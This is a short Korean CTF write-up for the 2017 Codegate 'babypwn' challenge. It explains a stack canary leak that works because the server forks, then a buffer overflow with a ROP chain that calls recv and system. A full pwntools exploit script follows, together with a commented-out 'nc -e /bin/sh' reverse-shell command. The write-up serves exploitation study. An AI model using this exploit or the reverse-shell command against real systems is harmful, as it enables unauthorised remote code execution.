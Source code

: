 ```yaml
---
layout: post
title: "2017 Codegate babypwn"
date: 2019-11-4
ctf: Codegate CTF
---
```


Reverse Shell을 열어서 풀면 된다.

canary leak해주면 되는데 이 바이너리를 보면 fork되어 있는 것을 알 수 있다. 그래서 canary값은 고정이다.

nc 접속해서 ret 전까지 카나리 값 맞춰주면서 덮어주고 recv함수 이용해서 bss영역에 /bin/sh (리버스쉘) 넣은 다음에 system함수로 실행시키면 된다.

> 1. Canary Leak
>
> 2. bof -> rop
>
> 3. rop chain -> recv(4,bss,/bin/sh,0)
>
> 4. system(bss)

```python
# -*-coding:utf-8-*- 
from pwn import *
 
e = ELF('./babypwn')
p = remote('localhost',8181)
r = ROP(e)
cmd = '/bin/sh'
# cmd = nc -lvp localhost 1234 -e /bin/sh
 
# canary leak
p.sendlineafter('> ','1')
p.sendlineafter(': ','A'*40)
p.recv(41)
canary = u32('\x00'+p.recv(3))
log.info('Canary : ' + hex(canary)) # canary 주소는 고정 fork 사용해서
 
p.close()

# solve
p = remote('localhost',8181)
bss = e.bss()

p.sendlineafter('> ','1')
 
# dummy(52) + sfp(4) + ret
pay = 'A'*40
pay += p32(canary)
pay += 'A'*12
r.recv(4,bss,len(cmd)+2,0)
r.system(bss)
pay += r.chain()
 
p.sendafter(': ',pay)
 
p.recvuntil('> ')
p.sendline('3')
sleep(0.3)
p.sendline(cmd)
 
p.interactive()
```

